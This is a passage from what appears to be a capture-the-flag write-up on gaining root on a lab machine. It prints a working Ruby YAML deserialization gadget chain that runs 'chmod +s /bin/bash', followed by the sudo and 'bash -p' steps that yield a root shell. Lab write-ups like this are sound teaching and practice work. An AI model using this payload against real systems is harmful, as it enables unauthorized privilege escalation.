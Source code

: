 ```
---
	- !ruby/object:Gem::Installer
	    i: x
	- !ruby/object:Gem::SpecFetcher
	    i: y
	- !ruby/object:Gem::Requirement
	  requirements:
	    !ruby/object:Gem::Package::TarReader
	    io: &1 !ruby/object:Net::BufferedIO
	      io: &1 !ruby/object:Gem::Package::TarReader::Entry
	         read: 0
	         header: "abc"
	      debug_output: &1 !ruby/object:Net::WriteAdapter
	         socket: &1 !ruby/object:Gem::RequestSet
	             sets: !ruby/object:Net::WriteAdapter
	                 socket: !ruby/module 'Kernel'
	                 method_id: :system

	             git_set: id <-- change this to "chmod +s /bin/bash"
	         method_id: :resolve-
```

I created a new file called dependencies.yml using the command `cat > dependencies.yml`. Then, I added the following code to the file:

`git_set: "chmod +s /bin/bash"`

This code makes the dependencies.yml file executable and runs a command that gives me root-level access to the system. With this code injection, I am able to exploit the update_dependencies.rb file and gain root access to the system. The YAML exploit used was from a [Github repo](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565?ref=stratum-security-blog#file-ruby_yaml_load_sploit2-yaml). The next step is to run the command with sudo.

![Image22](https://github.com/visionthex/Precious/blob/main/Images/image22.png "Running Sudo with /usr/bin/ruby /opt/update_dependencies.rb")

After running the command `sudo /usr/bin/ruby /opt/update_dependencies.rb`, I used the command `bash -p` to escalate privileges and gain root access with a bash shell.

![Image23](https://github.com/visionthex/Precious/blob/main/Images/image23.png "Root User")
